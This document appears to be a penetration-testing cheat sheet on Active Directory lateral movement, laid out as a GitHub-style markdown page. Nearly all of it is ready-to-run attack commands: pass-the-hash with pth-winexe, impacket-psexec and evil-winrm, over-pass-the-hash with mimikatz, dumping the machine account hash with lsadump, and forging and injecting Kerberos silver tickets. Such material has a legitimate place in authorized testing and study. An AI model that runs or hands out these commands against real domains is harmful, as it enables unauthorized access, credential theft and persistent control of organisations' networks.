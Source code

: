 
## Active Directory Lateral Movement
### Pass the Hash
  Allows an attacker to authenticate to a remote system or service via a user's NTLM hash
```sh
pth-winexe -U Administrator%aad3b435b51404eeaad3b435b51404ee:<hash_ntlm> //<IP> cmd
```
  Remote Access - impacket-psexec  
```sh
impacket-psexec '<domain>/<user>'@<IP> -hashes ':<hash>'
impacket-psexec '<domain>/<user>'@<IP>
```
  Remote Access + evil-winrm  
```sh
evil-winrm -i <IP> -u <user> -H <hash>
```

### Over Pass the Hash
Allows an attacker to abuse an NTLM user hash to obtain a full Kerberos ticket granting ticket (TGT) or service ticket, which grants us access to another machine or service as that user
```cmd
mimikatz.exe "sekurlsa::pth /user:<user> /domain:<domain> /ntlm:<ntlm.hash> /run:PowerShell.exe" "exit"
```
   Command execution with psexec  
``` cmd
.\PsExec.exe \\<hostname> cmd.exe
```

### Silver Ticket - Pass the Ticket
It is a persistence and elevation of privilege technique in which a TGS is forged to gain access to a service in an application.
  Get SID
```
GetDomainsid (PowerView)
```
or  
```
whoami /user
```
  Get Machine Account Hash
```
Invoke-Mimikatz '"lsadump::lsa /patch"' -ComputerName <hostname_dc>
``` 
 - Exploitation
``` mimikatz
kerberos::purge
kerberos::list
kerberos::golden /user:<user> /domain:<domain> /sid:<sid> /target:<hostname.domain> /service:HTTP /rc4:<ervice_account_password_hash> /ptt
```
or
```
Invoke-Mimikatz -Command '"kerberos::golden /domain:<domain> /sid:<domainsid> /target:<dc>.<domain> /service:HOST /rc4:<machine_account_hash> /user:Administrator /ptt"'
kerberos::list
```
